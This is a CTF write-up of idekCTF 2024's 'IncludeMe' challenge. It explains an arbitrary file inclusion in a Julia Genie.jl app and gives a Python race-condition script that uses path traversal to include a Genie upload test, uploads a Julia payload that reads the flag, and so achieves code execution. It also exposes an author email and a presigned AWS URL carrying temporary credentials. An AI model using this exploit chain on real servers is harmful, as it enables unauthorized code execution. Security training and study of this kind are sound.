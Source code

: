 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4664OIVERST%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T091634Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDEaCXVzLXdlc3QtMiJHMEUCICGUgNH61qR8kP1IPNc6ZBacxfuj%2FcLUH4PuSfeVZLdhAiEA0hION3YjaHzy7eIcqIg61%2BaJLknAN%2FIf2fn0eWjQwFAqiAQI6v%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDHVBH%2F%2Fesh9pHQM9PCrcA30aJTbITTfaTYpktokx1ZD%2FeTT4iFCjqprvnIoXSIvy%2B5qJb7Ra06nINCUSGaIfazxjLsCF3y1h1YsBaNhsW2kqRGp3kSM%2BRWpZFWD3oZhelUd5gnC6slfhxp0h2ouUijTbmCvu%2BEzeDgPirH%2BQPa0hR%2Fndn3pIzaqSTNZOYkEJpurTAdgjvnXsP4UWHPIYEIDD3IS7G5VZaF1Bqp9%2FQ1EC6U56ei8UZJ5fJx4VbEEmVz2RkdLpJbjMDHFlAHjrKKRh08gu%2FDbRw0CJPQJogHbNQVUXhGvRP1Ad3%2BwCUK3q07B6V1a68L%2FBdK6ncycsgPbx%2FrqwJuUuDeJrE6XfUng7DBX2da0um2yF6T1Wyy5evS3Ji3r58BW8KENTUJgyYGKF4iUg1cKy3TdqaUBOLg9LLJLyNf2JJfvxaOHViI4fh%2BK0LQMoTI80z1QqqhhMGYYLDcAaiUUN3CrwhKZJwFYaCv2PS0d9R4M%2FxhKbdv7fyBBgFjEfiJSm6YKsrZ3QnE1aSeu1MFeqBtZR6olJs0G%2FzVStFTLh6juO1iIy5coBahWj7kOLPwQqJ38U3GTCvGR3vWJhaWuXw%2Bi01fGNqQaqgXTdQat74HRCJKdHEn7luG0Bhr6jTCYdNm6QMIHywMEGOqUBEA0MupIUbZZEUNDDjvvsO1oAxhZrFng4hvZ2G7qa%2F82yQukgo20h%2BEQJk72V7pS4nvmw%2F9mnd0VrLBRsx87toStFjSOJOysU%2Fq744XSmv9KmUgHgPC8TrF0y7ZhhKXBtniSYOoGuFvnKmn2xvfAiwJE5XphfSHQ2Dkbu17tfIgtnK9qNv8MxIkx4TkyXfu6uCmhBW0jGjluVgJ4WNaxEL6yRO1T9\&X-Amz-Signature=f8cacf4a72b6fe2335167e9ea3386edfbdef7661f29a473266153cd90f1abe7f\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
